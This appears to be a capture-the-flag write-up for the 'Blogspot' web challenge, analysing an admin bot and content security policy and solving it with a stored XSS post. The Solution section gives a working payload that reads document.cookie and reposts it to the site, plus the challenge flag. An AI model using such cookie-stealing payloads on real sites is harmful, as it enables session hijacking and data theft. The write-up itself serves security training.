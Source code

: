 # Blogspot
Category: Web | 425pts

## Challenge Description
> Jaga created an internal social media platform for the company, can you leak anyone's information?

## Analysis
Glancing through the source code provided and challenge website, we can guess that this challenge is about Cross-Site Scripting (XSS) attacks, more specifically reflected XSS, for the following reasons:
- There is an admin bot with the flag in its cookies that visits the posts you wrote (and hence control) everytime you submit a new post  <details><summary>Snippet of bot.js</summary>

```js
export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
```
</details>

However, at the same time, there is a content security policy we have to take note of:
```js
app.use(function (req, res, next) {
	res.setHeader(
	  'Content-Security-Policy',
	  "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
	);
	next();
  });
```

## Solution
We can use the following payload as a post to get the flag:
```js
qqq<script>xhr4=new XMLHttpRequest();var url4='/post';var a=document.cookie;xhr4.open('POST',url4,true);xhr4.setRequestHeader('Content-Type','application/json');var data=JSON.stringify({"title":"here","content":a});xhr4.send(data);</script>
```

## Explanation
Upon loading the page, the bot runs the script and sends a POST request to the `/post` endpoint with the flag in the body. The flag is then displayed on the page.

## Flag
`STF22{s1mpl3_p0stxSs:)}`